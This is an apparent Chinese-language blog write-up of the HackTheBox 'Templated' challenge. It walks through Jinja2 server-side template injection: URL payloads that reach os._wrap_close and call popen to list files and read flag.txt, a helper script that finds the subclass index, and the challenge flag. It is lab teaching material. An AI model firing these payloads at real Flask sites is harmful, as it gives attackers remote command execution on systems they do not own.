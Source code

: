 ```yaml
---
layout: post
title: HTB-Easy-Templated
excerpt: "第三道HTB题目,解题过程"
date:   2021-05-11 19:51:00
categories: [HackTheBox]
comments: true
---
```


## 解题步骤

1. 题目描述：Can you exploit this simple mistake?

2. 访问目标网站，发现是基于Flask/Jinja2/Python的网站，该框架最出名的是模板注入漏洞

   ![image-20210511195230617](https://monkeydatabase.github.io/img/image-20210511195230617.png)

3. 检查Cookie，本次网站没有使用Cookie

4. 直接尝试模板注入漏洞，访问http://ip:port/\{\{"".\_\_class\_\_\}\}，顺利执行，响应体如下

   ```shell
   Error 404
   The page '<class 'str'>' could not be found
   ```

5. 获取目前的object类及其可触达的子类，访问http://ip:port/\{\{"".\_\_class\_\_.\_\_base\_\_[0].\_\_subclasses__()\}\}

   ![image-20210511202601170](https://monkeydatabase.github.io/img/image-20210511202601170.png)

6. 从其中寻找os模块，运行结果为133  \<class 'os._wrap_close'\>

   ```python
   sub = "将第五步里的所有模块粘贴到这里"
   sub = sub.split(',')
   print(sub)
   
   for i, item in enumerate(sub):
       if "os." in item:
           print(i, item)
   ```

7. 通过os模块进行任意命令执行，访问http://ip:port/\{\{"".\_\_class__.__bases\_\_[0].\_\_subclasses\_\_()[133].\_\_init\_\_.\_\_globals\_\_\['popen'\]('ls').read()\}\}，发现flag文件

   ```tex
   Error 404
   The page 'bin boot dev etc flag.txt home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var ' could not be found
   ```

8. 读取flag文件，访问http://ip:port/\{\{"".\_\_class__.__bases\_\_[0].\_\_subclasses\_\_()[133].\_\_init\_\_.\_\_globals\_\_\['popen'\]('cat flag.txt').read()\}\}，发现flag文件

   ```shell
   Error 404
   The page 'HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!} ' could not be found
   ```

9. 发现flag，HTB{t3mpl4t3s_4r3_m0r3_p0w3rfu1_th4n_u_th1nk!}

## 独立思考

由于之前接触过Flask的SSTI，没有太多疑问

## 产生过的疑问

由于之前接触过Flask的SSTI，没有太多疑问